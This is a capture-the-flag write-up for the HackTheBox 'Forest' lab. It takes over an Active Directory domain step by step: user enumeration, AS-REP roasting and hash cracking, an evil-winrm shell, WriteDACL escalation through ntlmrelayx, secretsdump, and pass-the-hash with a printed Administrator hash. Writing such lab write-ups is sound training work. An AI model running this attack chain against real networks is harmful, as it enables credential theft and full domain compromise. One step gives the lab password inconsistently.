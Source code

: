 ```yaml
---
title: "Forest (HackTheBox)"
date: 2020-01-22T14:55:09-05:00
draft: true
description: "Leveraging WriteDACL to Gain Domain Administrator Privileges in Active Directory"
---
```


Leveraging WriteDACL to Gain Domain Administrator Privileges in Active Directory  

# Host Information  

IP: 10.10.10.161  
Difficulty: easy  

# Service Enumeration  

```bash
enum4linux -a 10.10.10.161  | tee enum4linux-output
```  

>[+] Getting domain group memberships:
Group 'Domain Controllers' (RID: 516) has member: HTB\FOREST$
Group 'Privileged IT Accounts' (RID: 1149) has member: HTB\Service Accounts
Group 'Group Policy Creator Owners' (RID: 520) has member: HTB\Administrator
Group 'Domain Users' (RID: 513) has member: HTB\Administrator
Group 'Domain Users' (RID: 513) has member: HTB\DefaultAccount
Group 'Domain Users' (RID: 513) has member: HTB\krbtgt
Group 'Domain Users' (RID: 513) has member: HTB\$331000-VK4ADACQNUCA
Group 'Domain Users' (RID: 513) has member: HTB\SM_2c8eef0a09b545acb
Group 'Domain Users' (RID: 513) has member: HTB\SM_ca8c2ed5bdab4dc9b
Group 'Domain Users' (RID: 513) has member: HTB\SM_75a538d3025e4db9a
Group 'Domain Users' (RID: 513) has member: HTB\SM_681f53d4942840e18
Group 'Domain Users' (RID: 513) has member: HTB\SM_1b41c9286325456bb
Group 'Domain Users' (RID: 513) has member: HTB\SM_9b69f1b9d2cc45549
Group 'Domain Users' (RID: 513) has member: HTB\SM_7c96b981967141ebb
Group 'Domain Users' (RID: 513) has member: HTB\SM_c75ee099d0a64c91b
Group 'Domain Users' (RID: 513) has member: HTB\SM_1ffab36a2f5f479cb
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc3d7722
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfc9daad
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc0a90c9
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox670628e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox968e74d
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox6ded678
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox83d6781
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfd87238
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxb01ac64
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox7108a4e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
Group 'Domain Users' (RID: 513) has member: HTB\sebastien  
Group 'Domain Users' (RID: 513) has member: HTB\lucinda  
Group 'Domain Users' (RID: 513) has member: HTB\svc-alfresco  
Group 'Domain Users' (RID: 513) has member: HTB\andy  
Group 'Domain Users' (RID: 513) has member: HTB\mark  
Group 'Domain Users' (RID: 513) has member: HTB\santi  
Group 'Domain Admins' (RID: 512) has member: HTB\Administrator  
Group 'Exchange Servers' (RID: 1118) has member: HTB\EXCH01$  
Group 'Exchange Servers' (RID: 1118) has member: HTB\$D31000-NSEL5BRJ63V7  
Group 'Domain Computers' (RID: 515) has member: HTB\EXCH01$  
Group 'Domain Guests' (RID: 514) has member: HTB\Guest  
Group 'Schema Admins' (RID: 518) has member: HTB\Administrator  
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\EXCH01$  
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\Exchange Servers  
Group '$D31000-NSEL5BRJ63V7' (RID: 1133) has member: HTB\EXCH01$  
Group 'Exchange Windows Permissions' (RID: 1121) has member: HTB\Exchange Trusted Subsystem  
Group 'Service Accounts' (RID: 1148) has member: HTB\svc-alfresco  
Group 'Exchange Trusted Subsystem' (RID: 1119) has member: HTB\EXCH01$  
Group 'Enterprise Admins' (RID: 519) has member: HTB\Administrator  
Group 'Organization Management' (RID: 1104) has member: HTB\Administrator  

If we used tee in the above command and saved the output in **enum4linux-output** we can get a list of the domain users:  

```bash
cat enum4linux-output | grep "Domain Users" | cut -d "\\" -f 2 > domain-users  
```  

Great now that we have a list of domain-users we can check and see if any of them are Kerberoastable.

> Service Principal Names (SPNs) are used by Windows to identify which service account is used to encrypt a Ticket Granting Service ticket. There are host-based SPNs that are linked to computer accounts and there are Domain User linked SPNs. If an SPN is registered for a domain user account, the NT hash of a domain-joined users password will be used to encrypt the TGS. This is important because when the domain controller creates the TGS, it does not check if the requesting user is authorized to make the request.

Reference: https://www.scip.ch/en/?labs.20181011  

We can therefore pass the Domain Controller our curated list of domain users to check if any of them can request TGS for "free". Then we can try to crack their NT hash offline.  

```bash
./GetNPUsers.py htb.local/ -no-pass -usersfile /root/Desktop/htb/forest/domain-users
```

Boom! Impacket dumps the hash of the svc-alfresco service account. Save the password hash in a text file by itself and we can crack it with John.  

```bash
john alfreso-hash --wordlist=/usr/share/wordlists/rockyou.txt
```  

svc-alfresco:s3rvice  

We can use evil-winrm to open a command prompt on the target:  

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```  

Since this is a domain controller and we have a domain-user / service account shell, we can enumerate our domain permissions manually, or more simply using BloodHound. 

[BloodHound GitHub](https://github.com/BloodHoundAD/BloodHound)  

BloodHound is dope and immediately tells us that we have writeDACL permission. This privilege essentially means that we have the ability to modify the permissions of users in the Domain; cool, can we just elevate ourselves? YEP!  

First we move our user into the Exchange Windows Permission group, then we authentication to a local NTLMRelayx.py service that is provided with Impacket, and then ntlmrelayx.py does the heavy lifting for us.  

startup our local ntlmrelayx:  

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t ldap://htb.local --escalate-user svc-alfresco
```

In our evil-winrm shell we execute:  

> net group "Exchange Windows Permission" svc-alfresco /DOMAIN

Keep the evil-winrm shell active since the permissions reset when we relog as svc-alfresco.

We just have to provide ntlmrelayx our credentials now; the way this is done is a bit funky since we can't provide them with a command-line switch we have to hit it from our localhost via browser:    

```http://localhost/   
username: svc-alfresco
password: s3cret
```  

ntlmrelayx authenticates using the credentials we provided, it tells us to use secretsdump so lets give that a shot.  

```bash
./secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```  

Since we can now change the ACL, ntlmrelay puts our user into the Domain Administrators group and secretsdump.py dumps hashes out of memory. Now we can pass-the-hash to authenticate in as the Administrator account and read root.txt:  

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

